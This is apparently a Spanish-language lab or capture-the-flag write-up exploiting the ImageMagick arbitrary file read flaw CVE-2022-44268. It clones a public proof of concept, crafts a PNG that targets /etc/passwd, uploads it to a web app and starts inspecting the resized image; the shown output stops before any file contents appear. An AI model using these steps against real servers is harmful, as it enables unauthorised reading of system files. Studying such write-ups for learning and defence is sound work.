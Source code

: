 ![image](https://github.com/user-attachments/assets/19abe31e-acfd-4cf2-8712-efecfe3a846a)

el segundo resultado me interesa ya que al parecer permite la lectura arbitraria de archivos

![image](https://github.com/user-attachments/assets/56fa2a8c-510d-41ee-9b88-448a09418445)

me lleva a una `POC` en github aqui: `https://github.com/voidz0r/CVE-2022-44268`

# Explotando CVE-2022-44268

clonamos el repositorio
```ruby
https://github.com/voidz0r/CVE-2022-44268.git
```

entramos al repositorio clonado
```ruby
cd CVE-2022-44268
```

instalamos `cargo`
```ruby
apt install cargo -y
```

continuamos con los pasos de la `POC`

```ruby
cargo run "/etc/passwd"
```
ahora nos indica que debemos pasar la imagen `image.png` por `ImageMagick` por lo que debemos cargar la imagen por la web

![image](https://github.com/user-attachments/assets/d4b9c306-ec24-4232-8a88-6b608f43354e)

y luego debemos analizar la imagen redimensionada, para lo cual nos descargamos la imagen y procedemos a analizarla

![image](https://github.com/user-attachments/assets/dfb4dfc8-66de-41d0-9b57-47bed49338ea)


```ruby
identify -verbose Untitled.png
```
```bash
Image:
  Filename: Untitled.png
  Permissions: rw-rw-r--
  Format: PNG (Portable Network Graphics)
  Mime type: image/png
  Class: PseudoClass
  Geometry: 500x500+0+0
  Units: Undefined
  Colorspace: sRGB
  Type: Palette
  Base type: Undefined
  Endianness: Undefined
  Depth: 1-bit
  Channel depth:
    red: 1-bit
    green: 1-bit
    blue: 1-bit
  Channel statistics:
    Pixels: 250000
    Red:
      min: 1  (1)
      max: 1 (1)
      mean: 1 (1)
```